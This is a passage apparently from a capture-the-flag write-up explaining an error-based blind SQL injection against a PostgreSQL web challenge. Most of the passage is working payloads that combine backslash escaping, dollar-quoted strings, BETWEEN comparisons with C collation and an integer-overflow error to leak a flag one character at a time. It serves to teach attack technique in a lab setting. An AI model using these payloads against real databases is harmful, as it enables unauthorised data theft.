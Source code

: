 ```sql
SELECT * FROM items WHERE name = E'\\' OR id - 2147483647 - 100 BETWEEN 0 AND 1 -- '
```

We don't really have to care what are the bounds of the BETWEEN operator, since this is not our concern here (our concern is to create an error).

### 4. Create flag checking expression
```sql
SELECT * FROM items WHERE name = E'\\' OR [Our checking function] AND id - 2147483647 - 100 BETWEEN 0 AND 1 -- '
```

The above is a basic template of the SQL injection with payload `\' OR [Our checking function] AND id - 2147483647 - 100 BETWEEN 0 AND 1 -- `, where our checking function means the flag checking expression.

How do we checking the flag? We can make use of `BETWEEN ... AND ...` once again. Note that you can use this operator to transform some typical operations (let $x$ and $y$ be strings such that $x < y$ in terms of lexicographical (dictionary) order):
- `x = y`: `y BETWEEN x AND x`
- `x <= y`: `y BETWEEN x AND [a very large string]`

By 'large', I mean in terms of lexicographical order as well.

Apart from this, using single quote might become a little bit troublesome because the program now adds a backslash in front of your single quote character. Luckily, the webserver allows `$` character which allows us to use [dollar-quoted string constants](https://www.postgresql.org/docs/current/sql-syntax-lexical.html#SQL-SYNTAX-DOLLAR-QUOTING) (essentially another way to represent string literal).

Finally, SQL is by default case-insensitive, which means you have to apply [collation](https://www.postgresql.org/docs/current/collation.html) in order to perform case-sensitive comparision. We will use `C` collation since the order is pretty easy to obtain (this collation compares strictly by their ASCII value).

So, after a lot of prerequisites, let's see some examples.

```sql
SELECT * FROM items WHERE name = E'\\' OR name COLLATE "C" BETWEEN $$Apple$$ AND $$Apple$$ AND id - 2147483647 - 100 BETWEEN 0 AND 1 -- '
```
This statement returns `integer out of range` since there is an "Apple" in the item list.

```sql
SELECT * FROM items WHERE name = E'\\' OR name COLLATE "C" BETWEEN $$Aha$$ AND $$Appld$$ AND id - 2147483647 - 100 BETWEEN 0 AND 1 -- '
```
This statement also returns `integer out of range` since there is an "Aho-Corasick algoithm" in the item list.

```sql
SELECT * FROM items WHERE name = E'\\' OR name COLLATE "C" BETWEEN "zzz" AND "zz}" AND id - 2147483647 - 100 BETWEEN 0 AND 1 -- '
```
This statement returns `WIP` since of course there are no strings with `z` as the beginning character.
